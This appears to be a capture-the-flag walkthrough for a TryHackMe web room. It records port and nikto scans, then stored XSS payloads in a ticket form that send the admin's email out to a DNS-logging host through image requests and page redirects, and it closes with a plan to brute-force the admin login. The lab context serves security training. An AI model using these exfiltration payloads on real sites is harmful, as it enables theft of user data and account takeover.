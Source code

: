# WalkThrough: That's the ticket!
https://tryhackme.com/room/thatstheticket

IP: 10.10.28.159

## Nmap 

```bash
nmap -p- -v 10.10.28.159
```

```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

## Nikto 

```bash
nikto -h 10.10.28.159
```

```bash
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.28.159
+ Target Hostname:    10.10.28.159
+ Target Port:        80
+ Start Time:         2021-06-09 20:45:01 (GMT1)
---------------------------------------------------------------------------
+ Server: nginx/1.14.0 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OSVDB-3092: /login/: This might be interesting...
+ OSVDB-3092: /register/: This might be interesting...
+ 7889 requests: 0 error(s) and 5 item(s) reported on remote host
+ End Time:           2021-06-09 20:48:15 (GMT1) (194 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```


## Webpage

pic

1. Register up an account (any)
2. Login
3. Cheking the webpage we see the message box is vunerable to XSS injection
```js
</textarea><script>alert(1)</script>
```

#Room hint from tryhackme page
```markdown
Hint: Our HTTP & DNS Logging tool on http://10.10.10.100 may come in useful!
```

## Dns time

Using the found xss bug we can use this to make callbacks to our machine and from the hint we got earlier. 
http://10.10.10.100 This is a DNS service that logs dns calls for us. We can also use a site like this, http://pingb.in/

Knowing we can use xss lets try a call back to the dns service. 

```js
</textarea><img/src=x onerror"//eb2da52f9a2e73bde0e673ea61b489fb.log.tryhackme.tech/"/>
```

pic

This gets the call back four times, 3 from us and once from the server (admin is looking)

Now lets try to get some data back! 
New payload

```js
</textarea><script>var i = new Image(); i.src="//8ba7c46d7ea59d575b71ef3126651b6a.log.tryhackme.tech/?c="+document.getElementById('email').innerHTML; </script>
```

But this was not working, data was not coming back from the server.
After a little while, I decided to try a subdomain. 

```js
</textarea><script>var i = new Image(); i.src="//TEST.8ba7c46d7ea59d575b71ef3126651b6a.log.tryhackme.tech/?c="+document.getElementById('email').innerHTML; </script>
```

This came back! 

pic

Now we can get the admins email address, but we will have to swap a few charaters to not break the url to the dns service (escaping chars like @.')

```js
</textarea><script>
var email = document.getElementById("email").innerText;
email = email.replace("@", "8")
email = email.replace(".", "0")
document.location = "http://"+ email +".8ba7c46d7ea59d575b71ef3126651b6a.log.tryhackme.tech"</script>
```
Press Create ticket and check the results on the service http://10.10.10.100

pic

We see the admin email and ours!

Now we can brute force the login page for the admins password as we have his email now.

pic




